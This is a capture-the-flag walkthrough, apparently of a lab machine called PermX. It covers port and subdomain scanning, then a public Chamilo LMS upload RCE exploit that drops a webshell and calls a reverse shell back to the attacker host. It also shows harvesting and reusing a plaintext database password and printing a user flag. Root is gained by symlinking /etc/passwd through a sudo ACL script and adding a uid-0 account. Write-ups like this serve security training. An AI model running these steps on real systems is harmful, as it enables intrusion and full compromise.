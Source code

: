 Running initial Nmap scan to discover all open ports.
```shell-session
# nmap -T4 -p- 10.10.11.23 -oN nmap_all_ports
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-16 12:36 IDT
Warning: 10.10.11.23 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.23
Host is up (0.14s latency).
Not shown: 65498 closed tcp ports (reset), 35 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 708.58 seconds
```

Starting a service scan with the open ports.
```shell-session
# Nmap 7.94SVN scan initiated Fri Aug 16 12:49:22 2024 as: nmap -sV -sC -p 80,22 -oN nmap_open_ports 10.10.11.23
Nmap scan report for permx.htb (10.10.11.23)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 16 12:49:34 2024 -- 1 IP address (1 host up) scanned in 12.07 seconds
```

Fuzzing for subdomains, we find an lms subdomain.
```shell-session
# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://permx.htb -H 'Host: FUZZ.permx.htb' -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 148ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 176ms]
:: Progress: [4989/4989] :: Job [1/1] :: 260 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

Visiting the website we see a Chamilo application.
![[Pasted image 20240816125951.png]]

A public exploit can be found [here](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc).

Used the following commands to download the exploit.
```shell-session
# git clone https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc
# cd chamilo-lms-unauthenticated-big-upload-rce-poc
# pip install -r requirements.txt
```

Next running the exploit with the scan mode, it says the target is likely vulnerable.
```shell-session
# python3 main.py -u http://lms.permx.htb/ -a scan
[+] Target is likely vulnerable. Go ahead. [+]
```

Let's now start a netcat listener.
```shell-session
# nc -nlvp 6666
listening on [any] 6666 ...
```

Next running the exploit with the revshell mode to get a reverse shell.
```shell-session
# python3 main.py -u http://lms.permx.htb/ -a revshell
Enter the name of the webshell file that will be placed on the target server (default: webshell.php):
Enter the name of the bash revshell file that will be placed on the target server (default: revshell.sh):
Enter the host the target server will connect to when the revshell is run: 10.10.14.88
Enter the port on the host the target server will connect to when the revshell is run: 6666
[!] BE SURE TO BE LISTENING ON THE PORT THAT YOU DEFINED [!]

[+] Execution completed [+]

You should already have a revserse connection by now.
```

We got a shell.
```shell-session
# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.88] from (UNKNOWN) [10.10.11.23] 47020
bash: cannot set terminal process group (1174): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

Going to the opt we can see a script file.
```shell-session
www-data@permx:/opt$ ls
acl.sh
```

Listing the file content, it seems like the script will give the requested user the requested permissions for a specific file in the /home/mtz/ directory.
```shell-session
www-data@permx:/opt$ cat acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Searching for the db_password string, we find something that looks like a password.
```shell-session
www-data@permx:/var/www/chamilo$ grep -r db_password
main/inc/global.inc.php:    'password' => $_configuration['db_password'],
main/inc/global.inc.php:    'password' => $_configuration['db_password'],
main/inc/global-min.inc.php:    'password' => $_configuration['db_password'],
main/install/configuration.dist.php:$_configuration['db_password'] = '{DATABASE_PASSWORD}';
main/install/install.lib.php:        $dbPassForm = $_configuration['db_password'];
app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
plugin/migrationmoodle/src/MigrationMoodlePlugin.php:            'db_password' => 'text',
plugin/migrationmoodle/src/MigrationMoodlePlugin.php:            'password' => $this->get('db_password'),
plugin/migrationmoodle/lang/english.php:$strings['db_password'] = 'Moodle DB password';
plugin/migrationmoodle/lang/french.php:$strings['db_password'] = 'Mot de passe BdD Moodle';

<SNIP>
```

We can now SSH as the mtz user.
```shell-session
# ssh mtz@10.10.11.23                    
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
mtz@10.10.11.23's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)

<SNIP>

mtz@permx:~$ cat user.txt
a971716c2a5713f4c92dd23c8f18fdfe
```

Checking sudo permissions, we can run the acl.sh file from before with sudo permissions.
```shell-session
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

Using symbolic link, we can gain full access with the /etc/passwd file with the script.
```shell-session
mtz@permx:/tmp$ ln -s /etc/passwd /home/mtz/link
mtz@permx:/tmp$ sudo /opt/acl.sh mtz rwx /home/mtz/link
```

We can add the following line to the end of the /etc/passwd file in order to add a new root user.
```
newroot:x:0:0::/root:/bin/bash
```

Let's generate a password hash for the new root user, then place it in place of x.
```shell-session
mtz@permx:/tmp$ python3 -c 'import crypt; print(crypt.crypt("password", crypt.mksalt(crypt.METHOD_SHA512)))'
$6$RjQCnPWlSjAzcqft$kvc7AQfsRGz2flfle.pvFBaZFhGVyzOZbx7hrs9Wsi747IMfGLOzOAkQH7wQjdCVFkmrPQqASbGQFtTtHxeNg/
```

newroot:$6$RjQCnPWlSjAzcqft$kvc7AQfsRGz2flfle.pvFBaZFhGVyzOZbx7hrs9Wsi747IMfGLOzOAkQH7wQjdCVFkmrPQqASbGQFtTtHxeNg/:0:0::/root:/bin/bash